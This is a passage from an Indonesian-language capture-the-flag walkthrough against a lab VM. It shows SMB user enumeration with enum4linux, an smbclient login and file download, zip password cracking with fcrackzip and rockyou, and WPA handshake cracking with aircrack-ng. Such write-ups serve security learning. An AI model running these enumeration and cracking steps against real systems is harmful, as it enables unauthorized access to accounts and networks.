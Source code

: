 ### enum4linux
Karena server menjalankan SMB, maka kita dapat mengumpulkan informasi yang berkaitan dengan SMB dengan tools enum4linux.

enum4linux adalah tools untuk melakukan enumerasi sistem Windows dan  Server Message Block (SMB/Samba) untuk mendapatkan informasi mulai dari domain, OS, versi SMB, hingga user yang ada dalam suatu domain.

```
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\sagar (Local User)
S-1-22-1-1001 Unix User\blackjax (Local User)
S-1-22-1-1002 Unix User\smb (Local User)
```

### smbclient
Dari hasil enumerasi enum4linux diatas kita mendapatkan 3 user, setelah dicoba satu-satu hanya user `smb` yang bisa login SMB.
`smbclient //bytesec.vh/smb -U smb -p `
```
smb: \> ls
  .                                   D        0  Mon Nov  4 18:50:37 2019
  ..                                  D        0  Mon Nov  4 18:37:28 2019
  main.txt                            N       10  Mon Nov  4 18:45:38 2019
  safe.zip                            N  3424907  Mon Nov  4 18:50:37 2019
```
Download file `save.zip` saja (karena ternyata `main.txt` cuma file txt isi kata "helo" doang).
### fcrackzip
Karena file `save.zip` ternyata berpassword,  kita bisa bruteforce passwordnya dengan menggunakan tools **fcrackzip**.
`fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u safe.zip`

```
PASSWORD FOUND!!!!: pw == hacker1smb:

```
Isi dari `safe.zip` adalah satu gambar dengan nama `secret.jpg` yang gak ada "secret-secret"--nya dan file `user.cap`.  
![deauth](/assets/images/Os-Bytesec/deauth.jpg){: img_content }
Setelah lihat-lihat isi `user.cap` ternyata banyak sekali paket deauth yang tercapture, maka dapat disimpulkan ini adalah file _capture_-an dari bocah yang mau ngehek wifi pake `aireplay-ng`. Karena asumsinya itu adalah file _three-way handshake_ dari `airodump`/`aireplay`, maka kita bisa crack password yang tercapture dengan menggunakan `aircrack`.
`aircrack-ng -w /usr/share/wordlists/rockyou.txt user.cap`
```
   #  BSSID              ESSID                     Encryption

   1  56:DC:1D:19:52:BC  blackjax                  WPA (1 handshake)
```